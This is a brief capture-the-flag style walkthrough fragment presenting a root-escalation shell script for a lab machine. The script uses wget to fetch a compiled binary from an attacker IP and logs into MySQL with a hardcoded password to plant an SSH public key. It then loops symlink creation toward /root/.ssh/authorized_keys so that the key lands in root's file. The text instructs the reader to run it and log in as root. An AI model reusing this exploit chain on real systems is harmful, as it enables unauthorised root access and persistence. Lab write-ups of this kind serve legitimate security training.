 Rooter.sh
```bash
# compiled c program
wget 10.10.16.13/random_gen
# make it executable
chmod +x random_gen
# insert my public key in the db
mysql -h localhost -u crossfit -poeLoo~y2baeni -Dcrossfit -e'insert into messages (id, name, email,message) values (1, "ssh-rsa","darkrider@sunshine","key-here");'
# try to create symlinks with the random number generator in a loop
while true; do ln -s /root/.ssh/authorized_keys /var/local/$(echo -n $(./random_gen)1 | md5sum | cut -d " " -f 1) 2>/dev/null; done

```


Just transfer this script to the machine and run
After some time login as root using your private ssh key!!

Rooted!!

